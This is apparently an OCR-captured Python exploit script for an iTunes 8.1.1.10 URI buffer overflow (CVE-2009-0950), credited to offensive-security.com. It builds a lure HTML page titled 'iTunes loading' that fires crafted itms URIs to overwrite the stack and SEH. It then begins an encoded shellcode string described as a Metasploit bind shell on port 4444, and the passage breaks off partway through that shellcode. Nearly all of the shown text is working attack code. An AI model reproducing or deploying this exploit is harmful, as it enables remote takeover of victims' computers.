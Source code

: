 from socket import *

html = """
<html>
  <head><title>iTunes loading . . .</title>
  <script>
   function openiTunes(){document.location.assign("itms://itunes.apple.com/");}
   function prepareStack(){document.location.assign("%s");}
   function ownSeh(){document.location.assign("%s");}
   function ipwn(){
    prepareStack();
    ownSeh();
   }
   function main() {
    openiTunes();
    // Increase this timeout if your iTunes takes more time to load!
    setTimeout('ipwn()',20000);
   }
  </script>
  </head>
  <body onload="main();">
    <p align="center">
    <b>iTunes 8.1.1.10 URI Bof Exploit Windows Version CVE-2009-0950</b>
    </p>
    <p align="center"><b>ryujin __ A-T __ offensive-security.com</b></p>
    <p align="center"><b>www.offensive-security.com</b></p>
    <p align="center">
    iTunes starting... wait for 20 secs; if you get an error, click "Ok"
    in the MessageBox before checking for your shell on port 4444 :)<br/>
    If victim host is not connected to the internet, exploit will fail
    unless iTunes is already opened and you disable "openiTunes" javascript
    function.
    <br/>
    <h2 align="center">
    <b><u>This exploit works if opened from Firefox not from IE!</u></b>
    </h2>
    <p align="center">
    After exploitation iTunes crashes, you need to kill it from TaskManager
    <br/>have fun!</br>
    </p>
    </p>
  </body>
</html>"""

# Alpha2 ASCII  printable  Shellcode  730 Bytes, via  EDX (0x60,0x40 Badchar)
# This is not standard Alpha2 bind shell. Beginning of shellcode  is modified
# in order to obtain register alignment and to  reset ESP and EBP we  mangled
# before. Rest of decoded shellcode is Metasploit  bind  shell  on  port 4444
# EXITFUNC=thread
#
shellcode = ("VVVVVVVVVVVVVVVVV7RYjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIOqhDahIoS0"
             "5QnaJLS1uQVaeQcdcm2ePESuW5susuPEsuilazJKRmixHykOkOKOCPLKPlUtu"